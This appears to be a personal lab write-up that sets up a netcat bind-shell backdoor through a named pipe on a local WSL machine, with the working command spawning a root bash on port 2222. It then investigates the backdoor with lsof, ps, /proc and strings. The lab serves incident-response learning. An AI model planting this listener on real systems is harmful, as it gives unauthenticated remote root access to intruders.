 ```yaml
---
layout: default
---
```

[Back](./)


## FIFO Backdoor (First In First Out)
Running 3 WSL linux sessions
The first will be where we run the backdoor.
The second will be where we connect to it.
The third is where we will be running our analysis.

**Machine 1**
1. Elevate to root
`sudo su`
2. Create a fifi backpipe
`mknod backpipe p`
3. Start the backdoor
`/bin/bash 0<backpipe | nc -l 2222 1>backpipe`
> In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session. It then takes the output of the bash session and puts it back into the netcat listener.

**Machine 2**
Connect to this backdoor
1. Get IP address info
`ip add`
2. Run netcat on the IP + Port
`nc 172.20.146.40 2222`

**Machine 1**
Open another tab on the original machine to analyse the backdoor connection
`lsof -i -P`

|Flag       |Define       |
| ----  | ----  |
|-i       |Looking at the open Internet connections.|
|-P       |Telling lsof to not guess what the service is on the ports. Just give us the port number.|
|-p       |List open files associated with the listed process ID.|

Output:
```yml
COMMAND    PID            USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nc        1757            root    3u  IPv4  48020      0t0  TCP *:2222 (LISTEN)
nc        1757            root    4u  IPv4  48021      0t0  TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```

List open files associated with the listed process ID.
`lsof -p 1757`
Output:
```
COMMAND  PID USER   FD      TYPE DEVICE SIZE/OFF NODE NAME
nc      1757 root  cwd   unknown                      /proc/1757/cwd (readlink: Permission denied)
nc      1757 root  rtd   unknown                      /proc/1757/root (readlink: Permission denied)
nc      1757 root  txt   unknown                      /proc/1757/exe (readlink: Permission denied)
nc      1757 root NOFD                                /proc/1757/fd (opendir: Permission denied)
```

Needed root permissions so i ran it with sudo
`sudo lsof -p 1757`
Output::
```
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF  NODE NAME
nc      1757 root  cwd    DIR   8,32     4096 40961 /root
nc      1757 root  rtd    DIR   8,32     4096     2 /
nc      1757 root  txt    REG   8,32    39560  1590 /usr/bin/nc.openbsd
nc      1757 root  mem    REG   8,32    47472  6689 /usr/lib/x86_64-linux-gnu/libmd.so.0.0.5
nc      1757 root  mem    REG   8,32  2216304  6521 /usr/lib/x86_64-linux-gnu/libc.so.6
nc      1757 root  mem    REG   8,32    68552  6801 /usr/lib/x86_64-linux-gnu/libresolv.so.2
nc      1757 root  mem    REG   8,32    89096  6517 /usr/lib/x86_64-linux-gnu/libbsd.so.0.11.5
nc      1757 root  mem    REG   8,32   240936  6325 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
nc      1757 root    0r  FIFO   0,12      0t0 51879 pipe
nc      1757 root    1w  FIFO   8,32      0t0  6659 /root/backpipe
nc      1757 root    2u   CHR  136,2      0t0     5 /dev/pts/2
nc      1757 root    3u  IPv4  48020      0t0   TCP *:2222 (LISTEN)
nc      1757 root    4u  IPv4  48021      0t0   TCP 172.20.146.40:2222->172.20.146.40:45500 (ESTABLISHED)
```

List all of the proccesses on the system for all users.
`ps aux`
Output:
```
bandit      1657  0.0  0.0   6080  5064 pts/3    Ss   22:01   0:00 -bash
root        1755  0.0  0.0   4780  3196 pts/2    S+   23:54   0:00 bash /home/bandit/fifo-backdoor.sh
root        1756  0.0  0.0   4912  3624 pts/2    S+   23:54   0:00 /bin/bash
**root        1757  0.0  0.0   3532  1220 pts/2    S+   23:54   0:00 nc -l 2222**
bandit      1769  0.0  0.0   7480  3244 pts/3    R+   23:55   0:00 ps aux
```

>-   The output includes information such as the process ID (PID), the user who started the process (USER), the CPU and memory usage, and the command that initiated the process (COMMAND).
>-   The command displays both active processes and those in a "zombie" or "defunct" state.
>-   "ps aux" gives a comprehensive view of the system's current process landscape and can be useful for monitoring system activity, identifying resource-intensive processes, and troubleshooting issues.

Change into the proc directory for that pid.
`cd /proc/1757`
`ls`
Output:
```
ls: cannot read symbolic link 'cwd': Permission denied
ls: cannot read symbolic link 'root': Permission denied
ls: cannot read symbolic link 'exe': Permission denied
arch_status  comm             fd         maps        ns             projid_map  smaps_rollup  task
attr         coredump_filter  fdinfo     mem         oom_adj        root        stack         timens_offsets
auxv         cpuset           gid_map    mountinfo   oom_score      sched       stat          timers
cgroup       cwd              io         mounts      oom_score_adj  schedstat   statm         timerslack_ns
clear_refs   environ          limits     mountstats  pagemap        setgroups   status        uid_map
cmdline      exe              map_files  net         personality    smaps       syscall       wchan
```

> **/proc**  contains a virtual file system that provides information about running processes it does **not exist on the drive.** It allows us to see data associated with the various processes **directly**. This can be very usesfull as it allows us to **dig into the memory of a process that is currently running on a suspect system.**

Identigy exactly what the program doing
`strings ./exe`
Output:
```
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
          [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
          [destination] [port]
        Command Summary:
                -4              Use IPv4
                -6              Use IPv6
                -b              Allow broadcast
                -C              Send CRLF as line-ending
```
> Now we can see the actual usage information for netcat

> We can run strings on the exe in this directory. This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.

